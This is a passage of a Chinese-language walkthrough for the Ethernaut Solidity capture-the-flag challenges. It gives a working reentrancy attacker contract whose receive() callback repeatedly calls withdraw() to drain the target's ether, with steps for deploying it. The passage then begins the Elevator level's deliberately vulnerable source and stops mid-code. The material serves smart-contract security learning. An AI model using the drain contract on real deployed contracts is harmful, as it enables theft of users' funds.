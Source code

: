 ### 解题过程
1.获取实例  
2.在remix部署合约，hack时带上1000000000000000个wei  
```solidity
contract HackRE {
    Reentrance re; 
    uint public attackAmount;
    //solidity0.7.0之前需要public，之后不需要了
    constructor (address payable aimAddr) public {
        //给re合约赋值
        re = Reentrance(aimAddr);
        attackAmount = address(re).balance;
    }

    //攻击函数，攻击时带上1000000000000000个wei
    function hack() public payable {
        //示在调用re.donate函数时，发送attackAmount数量的以太币。
        //address(this)-当前合约的地址
        re.donate{value: attackAmount}(address(this));
        re.withdraw(attackAmount);
    }
    receive() external payable {
        if(address(re).balance > 0) {
            re.withdraw(attackAmount);
        }
    }
}
```

3.getBalance(instance)查看实例余额
4.提交
### 第十一题 Elevator
### 题目
达到大楼顶楼
### 提示
- 有的时候 solidity 不是很擅长保存 promises.
- 这个 电梯 期待被用在一个 建筑 里.
### 源码
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
//定义了一个Building接口，声明了一个isLastFloor函数,用于检查给定的楼层是否是最高层
interface Building {
    function isLastFloor(uint256) external returns (bool);
}

contract Elevator {
    //是否到顶
    bool public top;
    //当前楼层
    uint256 public floor;

    function goTo(uint256 _floor) public {
        //创建一个 Building 类型的变量 building，并将其指向 msg.sender 地址。
        //Building(msg.sender) 是在进行类型转换。它将 msg.sender 地址转换为 Building 接口类型。
        Building building = Building(msg.sender);
        //调用 building 的 isLastFloor 函数，检查 _floor 是否是最后一层
        if (!building.isLastFloor(_floor)) {
            //当前楼层
            floor = _floor;
            top = building.isLastFloor(floor);
```